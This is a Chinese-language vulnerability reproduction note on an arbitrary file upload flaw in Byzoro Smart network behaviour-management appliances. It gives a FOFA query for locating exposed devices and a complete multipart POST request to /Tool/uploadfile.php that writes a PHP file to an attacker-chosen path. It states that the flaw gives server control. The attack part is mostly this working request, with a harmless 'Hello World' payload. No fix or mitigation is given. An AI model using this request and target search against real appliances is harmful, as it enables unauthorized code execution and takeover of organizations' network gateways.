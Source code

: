 # 百卓Smart uploadfile存在任意文件上传漏洞

# 一、漏洞简介
百卓Smart是一种系列品牌上网行为管理设备，多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等。百卓Smart uploadfile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。

# 二、影响版本
+ 百卓Smart

# 三、资产测绘
+ fofa`app="byzoro-Smart"`
+ 特征

![1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d.png](./img/5UAaScfollaesr-W/1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d-768626.png)

# 四、漏洞复现
```plain
POST /Tool/uploadfile.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=942c6029711a902ca974ac33efcdb383
Content-Type: multipart/form-data; boundary=---------------------------13979701222747646634037182887
Content-Length: 409
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="file_upload"; filename="contents.php"
Content-Type: application/octet-stream

<?php echo '<p>Hello World</p>'; ?>
-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="txt_path"

/home/helloworld.php
-----------------------------13979701222747646634037182887--
```

![1708149333069-c16f5827-752d-439f-a499-b0552a57e972.png](./img/5UAaScfollaesr-W/1708149333069-c16f5827-752d-439f-a499-b0552a57e972-291266.png)

上传文件位置

```plain
/home/helloworld.php
```

![1708149358116-a65b5f1f-09ce-4959-bb49-51efe0944746.png](./img/5UAaScfollaesr-W/1708149358116-a65b5f1f-09ce-4959-bb49-51efe0944746-674187.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bpwixrcymsyfg62k>
